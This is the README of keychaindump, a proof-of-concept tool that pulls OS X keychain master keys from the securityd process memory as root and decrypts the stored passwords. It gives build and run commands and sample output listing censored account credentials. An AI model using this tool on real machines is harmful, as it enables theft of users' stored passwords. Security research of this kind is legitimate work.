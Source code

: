 # keychaindump
Keychaindump is a proof-of-concept tool for reading OS X keychain passwords as root. It hunts for unlocked keychain master keys located in the memory space of the securityd process, and uses them to decrypt keychain files.

## How?
Build instructions:
    $ gcc keychaindump.c -o keychaindump -lcrypto

Basic usage:
    $ sudo ./keychaindump [path to keychain file, leave blank for default]

Example with truncated and censored output:
    $ sudo ./keychaindump 
    [*] Searching process 15 heap range 0x7fa809400000-0x7fa809500000
    [*] Searching process 15 heap range 0x7fa809500000-0x7fa809600000
    [*] Searching process 15 heap range 0x7fa809600000-0x7fa809700000
    [*] Searching process 15 heap range 0x7fa80a900000-0x7fa80ac00000
    [*] Found 17 master key candidates
    [*] Trying to decrypt wrapping key in /Users/juusosalonen/Library/Keychains/login.keychain
    [*] Trying master key candidate: b49ad51a672bd4be55a4eb4efdb90b242a5f262ba80a95df
    [*] Trying master key candidate: 22b8aa80fa0700605f53994940fcfe9acc44eb1f4587f1ac
    [*] Trying master key candidate: 1d7aa80fa0700f002005043210074b877579996d09b70000
    [*] Trying master key candidate: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found master key: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found wrapping key: e9acc39947f1996df940fceb1f458ac74b877579f54409b7
    xxxxxxx:192.168.1.1:xxxxxxx
    xxxxxxx@gmail.com:login.facebook.com:xxxxxxx
    xxxxxxx@gmail.com:smtp.google.com:xxxxxxx
    xxxxxxx@gmail.com:imap.google.com:xxxxxxx
    xxxxxxx:twitter.com:xxxxxxx
    xxxxxxx@gmail.com:www.google.com:xxxxxxx
    xxxxxxx:imap.gmail.com:xxxxxxx
    ...

## Who?
Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.